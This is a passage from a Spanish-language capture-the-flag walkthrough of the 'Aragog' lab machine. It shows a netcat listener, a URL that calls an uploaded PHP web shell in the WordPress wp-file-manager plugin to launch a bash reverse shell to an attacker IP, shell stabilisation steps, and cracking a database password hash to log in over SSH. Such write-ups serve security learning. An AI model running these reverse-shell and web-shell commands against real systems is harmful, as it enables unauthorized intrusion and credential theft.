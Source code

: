 ```bash
nc -lnvp 4444
```

Ejecutamos la reverse shell.

```bash
http://wordpress.aragog.hogwarts/blog/wp-content/plugins/wp-file-manager/lib/files/payload.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.1.14/4444%200%3E%261%22
```

Ganamos acceso al sistema como el usuario `www-data`.

![Aragog](aragog/aragog15b.png)
_usuario www-data_

Hacemos el tratamiento de la tty para tener una terminal más interactiva:

- `script /dev/null -c bash`
- CTRL + Z
- `stty raw -echo; fg`
- `reset xterm`
- `export TERM=xterm`
- `export SHELL=bash`
- `stty rows <rows> columns <columns>`

De esta forma, ya podemos leer el primer **horrocrux**.

![Aragog](aragog/aragog16.png)
_horrocrux 1_

> 1: RidDlE's DiAry dEstroYed By haRry in chaMbEr of SeCrets
{: .prompt-tip }

## Usuario `hagrid98`

Si realizamos un reconocimiento del sistema, nos encontramos con un archivo con las credenciales de la base de datos wordpress.

Nos conectamos a la base de datos y logramos obtener el hash de la contraseña del usuario `hagrid98`.

![Aragog](aragog/aragog17.png)
_Base de datos wordpress_

Crackeamos la contraseña con `john`.

![Aragog](aragog/aragog18.png)
_Crackeamos la contraseña utilizando john_

Obtenemos la contraseña del usuario `hagrid98` y nos conectamos a través de ssh.

![Aragog](aragog/aragog19.png)
_usuario hagrid98_

## Escalación de privilegios
